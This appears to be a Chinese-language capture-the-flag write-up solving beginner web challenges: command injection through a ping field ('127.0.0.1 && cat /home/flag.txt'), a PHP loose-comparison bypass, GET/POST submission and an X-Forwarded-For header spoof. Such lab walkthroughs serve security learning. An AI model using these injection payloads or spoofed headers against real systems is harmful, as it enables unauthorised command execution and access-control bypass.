 #### 考点：命令执行

构造payload：

```
127.0.0.1 && ls		//发现可以执行
127.0.0.1 && cd ../ && ls		//查看上一级目录，发现没有，于是查找根目录，也没有
127.0.0.1 && find / -name "*flag*"	//于是find查找flag文件
```

看到出现了一个：/home/flag.txt，于是cat这个文件

```
127.0.0.1 && cat /home/flag.txt		//直接看到了flag
```



### simple_php

进入后看到php的源代码，

```php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
```

这道题在阅读了PHP代码后，发现，**要a==0，但a的值又不能为0**，因此让a=0+任意非数字字符，而 b=数字就退出， 于是构造：

```
?a=0a&b=12345A		//便得到完整的flag
```



### get_post

直接按照页面提示，先GET提a=1，Post提交b=2就好了，HackBar真好用



### xff_referer

页面要求，ip地址必须为123.123.123.123，我们只要只要在**请求文件头部**添加**X-Forwarded-For**就好了

我们bp改包

```
X-Forwarded-For:123.123.123.123 
```

